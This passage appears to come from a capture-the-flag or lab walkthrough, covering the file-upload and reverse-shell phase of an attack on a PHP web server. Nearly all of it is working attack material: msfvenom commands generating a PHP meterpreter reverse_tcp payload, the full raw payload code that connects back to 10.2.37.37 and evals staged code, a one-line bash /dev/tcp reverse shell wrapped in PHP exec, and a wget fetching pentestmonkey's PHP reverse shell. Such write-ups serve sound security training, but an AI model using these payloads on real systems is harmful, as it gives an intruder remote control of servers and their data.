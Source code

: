 > **Uploading File & Reverse Shell Phase**
> 

`msfvenom -p php/meterpreter/reverse_tcp LHOST=10.2.37.37 LPORT=11212 -o meterpreter_shell.php`

```bash
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 1112 bytes
Saved as: meterpreter_shell.php
```

`msfvenom -p php/meterpreter/reverse_tcp LHOST=10.2.37.37 LPORT=11212 R` 

```bash
/*<?php /**/ error_reporting(0); $ip = '10.2.37.37'; $port = 11212; if (($f = 'stream_socket_client') && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = 'stream'; } if (!$s && ($f = 'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_type = 'stream'; } if (!$s && ($f = 'socket_create') && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = 'socket'; } if (!$s_type) { die('no socket funcs'); } if (!$s) { die('no socket'); } switch ($s_type) { case 'stream': $len = fread($s, 4); break; case 'socket': $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a['len']; $b = ''; while (strlen($b) < $len) { switch ($s_type) { case 'stream': $b .= fread($s, $len-strlen($b)); break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s; $GLOBALS['msgsock_type'] = $s_type; if (extension_loaded('suhosin') && ini_get('suhosin.executor.disable_eval')) { $suhosin_bypass=create_function('', $b); $suhosin_bypass(); } else { eval($b); } die();
```

**Other payload:**

```bash
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.2.37.37/21212 0>&1'");
?>
```

**For online creating payload:**

[Online - Reverse Shell Generator](https://www.revshells.com/)

`wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php`

```bash
php-reverse-shell.php                100%[====================================================================>]   5.36K  --.-KB/s    in 0s      

2024-09-13 10:19:40 (75.3 MB/s) - ‘php-reverse-shell.php’ saved [5491/5491]

```

For php reverse shell source:

[https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

`ls -lsa`
